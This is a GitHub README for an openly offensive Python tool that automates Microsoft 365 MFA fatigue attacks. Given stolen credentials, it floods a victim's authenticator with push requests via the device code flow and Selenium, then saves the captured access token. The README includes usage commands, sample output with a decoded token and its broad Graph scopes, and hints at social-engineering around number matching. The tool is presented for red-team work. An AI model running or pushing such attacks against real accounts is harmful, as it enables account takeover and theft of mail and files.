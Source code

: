 # Microsoft 365 MFA Bombing Script

This Python script automates the authentication process for Microsoft 365 by using the device code flow and Selenium for automated login.
It keeps bombing the user with MFA requests and stores the access_token once the MFA was approved.

It is intended to be used in Social Engineering / Red-Team / Pentesting scenarios when targeting O365/MS-Online users in Azure (now called Entra ID).

In case a username & password combination was compromised it can be used to flood the authenticator app with authentication requests.
Once the second factor has been approved the valid JWT access_token will be stored in decoded and encoded format locally. The token can be reused in other tools like [TokenTactics](https://github.com/f-bader/TokenTacticsV2), [GraphRunner](https://github.com/dafthack/GraphRunner) or manual requesting different endpoints in Azure...

## Applicability
Microsoft used to offer different MFA authentication mechanisms within their authenticator app like:

- Push Notification Approval
- Time-Based One-Time Password (TOTP)
- Phone Sign-in
- Number Matching
- Passwordless Sign-in

As of May 2023 Microsoft mostly disarmed this fatigue bombing attacks by enforcing the number matching mechanism which require the user to manually enter a two digit number which is presented in the browser as part of the login flow. Generally speaking that breaks simple flooding attacks as only the victim is in possession of the matching number. However one could still retreive the information via real-time social engineering.
If you find environments that still rely on classic push notifications, this attack vector should still work fine. Also I leave it to your own creativity to find applicable scenarios ;-)

## Usage

### Installation

1. Clone this repository.

2. Install the required dependencies by running:

   ```bash
   pip install -r requirements.txt
    ```

### Running the Script
To run the script, execute the following command:

```bash

python m365-fatigue.py --user <username> [--password <password>] [--interval <seconds> (default: 60)]
````

Replace <username> with the target Microsoft 365 username. The password can be provided directly after the --password flag, or the script will prompt for it if not supplied.

The --interval flag allows you to set the polling interval in seconds (default is 60 seconds).

### Sample output

```bash
m365-fatigue python3 m365-fatigue.py --user user@domain.com
Enter your password: 
[*] Username: user@domain.com
[*] Password: ********************************
[*] Device code:
To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code GKZAQ433Q to authenticate.
Bei Ihrem Konto anmelden
https://login.microsoftonline.com/common/oauth2/deviceauth
https://login.microsoftonline.com/common/oauth2/deviceauth
Base64 encoded JWT access_token:
eyJ0 ... [dedacted] ... dsgHmA
Decoded JWT payload:
{
    "aud": "https://graph.microsoft.com",
    "iss": "https://sts.windows.net/90931373-6ad6-49cb-9d8c-22eebb6968fa/",
    "iat": 1701428346,
    "nbf": 1701428346,
    "exp": 1701433450,
    "acct": 0,
    "acr": "1",
    "aio": " ... [dedacted] ... ",
    "amr": [
        "pwd",
        "mfa"
    ],
    "app_displayname": "Microsoft Office",
    "appid": " ... [dedacted] ... ",
    "appidacr": "0",
    "family_name": " ... [dedacted] ... ",
    "given_name": " ... [dedacted] ... ",
    "idtyp": "user",
    "ipaddr": " ... [dedacted] ... ",
    "name": " ... [dedacted] ... ",
    "oid": " ... [dedacted] ... ",
    "onprem_sid": " ... [dedacted] ... ",
    "platf": "3",
    "puid": " ... [dedacted] ... ",
    "rh": " ... [dedacted] ... ",
    "scp": "AuditLog.Read.All Calendar.ReadWrite Calendars.Read.Shared Calendars.ReadWrite Contacts.ReadWrite DataLossPreventionPolicy.Evaluate Directory.AccessAsUser.All Directory.Read.All Files.Read Files.Read.All Files.ReadWrite.All Group.Read.All Group.ReadWrite.All InformationProtectionPolicy.Read Mail.ReadWrite Notes.Create Organization.Read.All People.Read People.Read.All Printer.Read.All PrintJob.ReadWriteBasic SensitiveInfoType.Detect SensitiveInfoType.Read.All SensitivityLabel.Evaluate Tasks.ReadWrite TeamMember.ReadWrite.All TeamsTab.ReadWriteForChat User.Read.All User.ReadBasic.All User.ReadWrite Users.Read",
    "sub": " ... [dedacted] ... ",
    "tenant_region_scope": "EU",
    "tid": " ... [dedacted] ... ",
    "unique_name": " ... [dedacted] ... ",
    "upn": " ... [dedacted] ... ",
    "uti": " ... [dedacted] ... ",
    "ver": "1.0",
    "wids": [
        " ... [dedacted] ... "
    ],
    "xms_tcdt":  ... [dedacted] ... ,
    "xms_tdbr": "EU"
}
[*] Successful authentication. Access token expires at: 2023-12-01 12:24:10
[*] Storing token...
Stored Base64 encoded access token as 'access_token_user@domain.com_20231201120406.txt'
Stored decoded access token as 'access_token_user@domain.com_20231201120406.json'
Exiting...
```

## TODO
The fireprox implementation is yet not finished and may or may not be implemented in the future...

# Notes
This script utilizes Selenium, which requires a compatible WebDriver (in this case, Chrome WebDriver... but you can change it towards something else if you need to).

# Credits & Acknowledgements
Heavily inspired by the awesome work of Steve Borosh ([@rvrsh3ll](https://github.com/rvrsh3ll)) and Beau Bullock ([@dafthack](https://github.com/dafthack)). Huge kudos to them for all the awesome research and tooling they release.

# License
This project is licensed under the [MIT License](https://chat.openai.com/c/LICENSE).

